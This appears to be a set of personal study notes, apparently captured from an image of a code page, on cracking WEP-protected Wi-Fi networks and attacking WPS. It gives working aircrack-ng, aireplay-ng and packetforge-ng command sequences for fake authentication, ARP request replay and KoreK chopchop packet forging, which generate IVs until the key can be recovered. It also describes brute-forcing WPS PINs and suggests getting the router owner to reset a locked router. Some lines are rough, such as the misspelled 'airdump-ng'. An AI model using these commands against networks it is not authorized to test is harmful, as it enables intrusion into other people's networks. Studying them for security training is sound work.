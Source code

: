 Problem 
    - If network is not busy
    - It would take some time to capture enough IVs
Solution 
    - Force the AP to generate new IVs

Problem
APs only communicate with connected client
We cant communicate with it
We cant even start the attack
Solution 
- Associate with the AP before launching the attack


airdump-ng --bssid <> --channel <> --write arpreplay mon0
aircrack-ng < basic_web-01.cap>           (key found)
aireplay-ng --fakeauth 0 -a <> -h <> mon0      (monitor mode enabled then = unspec 1st 6 digits)
----------------------------------------------------------
ARP Request Replay
* Wait for an ARP packet
* Capture it, and replay it (transmit it)
* This cause the AP to produce another packet with a new IV
* Keep doing this till we have enough IVs to crack the key
aireplay-ng --arpreplay  -b <> -h <> mon0     
aircrack-ng arpreplay-01
------------------------------------------------------------------------------------------------------------------
Packet Injection (Korek chop chop)

In this method we will capture an ARP packet and attempt to guess its key stream and use it to forge a new packet(using )
then we can inject this new forged packet into the new traffic  to generate new IVs
1. Capture a packet and determine its key stream
#> aireplay-ng --chopchop -b [target mac] -h [your mac] mon0

2. Forge a new packet
#> packetforge-ng -0 -a [target mac] -h [your mac] -k 255.255.255.255 -l 255.255.255.255 -y [out from last step.xor] -w [output ]

3. Inject the forged packet into the traffic to generate new IV's
#> aireplay-ng -2 -r [out from last step] [interface ]

aircrack-ng chopchop
* We captured the packet -- try to determine key stream -- 86% fake stream -- to air

---------------------------------------------------------------------------------------------------------------
WPS Lock
* We exploit WPS by bruteforcing its pin
* This means we try every possible pin
* Some routers lock after a number of failed attempts
Problem 
    - Locked routers refuse all pins even if we send it the right pin
Solution 
    - Try to somehow reset the router or get the user to reset their router

